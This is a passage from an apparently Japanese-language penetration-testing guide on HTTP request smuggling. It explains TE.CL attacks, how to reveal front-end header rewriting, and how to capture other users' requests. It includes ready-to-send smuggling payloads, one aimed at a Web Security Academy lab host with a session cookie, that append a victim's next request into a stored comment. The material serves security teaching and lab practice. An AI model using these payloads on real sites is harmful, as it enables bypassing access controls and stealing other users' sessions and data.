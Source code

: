 ```

```
逆に、TE.CL攻撃では、最初の`POST`リクエストが`Transfer-Encoding: chunked`を使用し、その後の埋め込まれたリクエストは`Content-Length`ヘッダーに基づいて処理されます。CL.TE攻撃と同様に、フロントエンドプロキシは密輸された`GET /admin`リクエストを見落とし、意図せずに制限された`/admin`パスへのアクセスを許可します。

### フロントエンドリクエストの書き換えを明らかにする <a href="#revealing-front-end-request-rewriting" id="revealing-front-end-request-rewriting"></a>

アプリケーションは、通常、**フロントエンドサーバー**を使用して、バックエンドサーバーに渡す前に受信リクエストを変更します。典型的な変更には、クライアントのIPをバックエンドに中継するために`X-Forwarded-For: <クライアントのIP>`のようなヘッダーを追加することが含まれます。これらの変更を理解することは重要であり、**保護を回避する方法**や**隠された情報やエンドポイントを明らかにする方法**を示す可能性があります。

プロキシがリクエストをどのように変更するかを調査するには、バックエンドがレスポンスでエコーするPOSTパラメータを見つけます。次に、このパラメータを最後に使用してリクエストを作成します。以下のように：
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked

0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```
この構造では、後続のリクエストコンポーネントが `search=` の後に追加され、これはレスポンスに反映されるパラメータです。この反映により、後続のリクエストのヘッダーが露出します。

ネストされたリクエストの `Content-Length` ヘッダーを実際のコンテンツ長に合わせることが重要です。小さな値から始めて徐々に増加させることが推奨されます。値が低すぎると反映されたデータが切り捨てられ、値が高すぎるとリクエストがエラーになる可能性があります。

この技術は TE.CL 脆弱性の文脈でも適用可能ですが、リクエストは `search=\r\n0` で終了する必要があります。改行文字に関係なく、値は検索パラメータに追加されます。

この方法は、フロントエンドプロキシによって行われたリクエストの変更を理解するために主に使用され、基本的には自己主導の調査を行います。

### 他のユーザーのリクエストをキャプチャする <a href="#capturing-other-users-requests" id="capturing-other-users-requests"></a>

POST 操作中に特定のリクエストをパラメータの値として追加することで、次のユーザーのリクエストをキャプチャすることが可能です。これを実現する方法は次のとおりです：

次のリクエストをパラメータの値として追加することで、後続のクライアントのリクエストを保存できます：
```
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked

0

POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi

csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
```